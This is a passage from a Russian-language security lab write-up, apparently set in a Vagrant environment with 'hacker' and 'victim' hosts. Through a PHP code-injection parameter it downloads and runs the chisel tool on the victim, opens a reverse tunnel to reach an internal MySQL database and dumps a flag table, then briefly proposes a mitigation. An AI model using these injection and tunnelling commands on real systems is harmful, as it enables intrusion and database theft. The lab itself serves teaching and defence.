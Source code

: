 Загрузим приложение на `victim` и запустим его:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output /tmp/chisel.gz 2>&1');"
  <h1> Hello world!</h1>
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100   651  100   651    0     0   3518      0 --:--:-- --:--:-- --:--:--  3518
  100 3346k  100 3346k    0     0   789k      0  0:00:04  0:00:04 --:--:--  870k
  <br>
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('cd /tmp && gzip -d chisel.gz && chmod +x chisel');"
  <h1> Hello world!</h1>
  <br>
```

Запустим серверную часть chisel на хосте `hacker`, для этого откроем новый терминал и выполним:
```
$ vagrant ssh hacker
vagrant@hacker:~$ ./chisel server -p 8008 --reverse
  2020/11/29 15:02:22 server: Reverse tunnelling enabled
  2020/11/29 15:02:22 server: Fingerprint tyWC23cR/aMoDOJKIjwdXIlzirzNP4bkS3KNRlLa78k=
  2020/11/29 15:02:22 server: Listening on http://0.0.0.0:8008
```

Теперь запустим chisel на хосте `victim` при помощи команды:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('/tmp/chisel client 192.168.50.7:8008 R:3306:172.18.0.2:3306 2>&1');"
  <h1> Hello world!</h1>
  2020/11/29 15:04:51 client: Connecting to ws://192.168.50.7:8008
  2020/11/29 15:04:51 client: Connected (Latency 2.219222ms)
```

Откроем ещё один терминал на `hacker`:
```
$ vagrant ssh hacker
vagrant@hacker:~$ mysqldump -h 127.0.0.1 -uprod -p production
  Enter password: 

  <...>
  LOCK TABLES `flag` WRITE;
  /*!40000 ALTER TABLE `flag` DISABLE KEYS */;
  INSERT INTO `flag` VALUES (1,'Flag captured');
  /*!40000 ALTER TABLE `flag` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  <...>
```

## Solution I

Единственным решением является отказать от передаче паролей через 
переменные окружения. Но необходимо предложить альтернативу так как
эта информация необходима для формирования конфигурационных-файлов
и пр. 
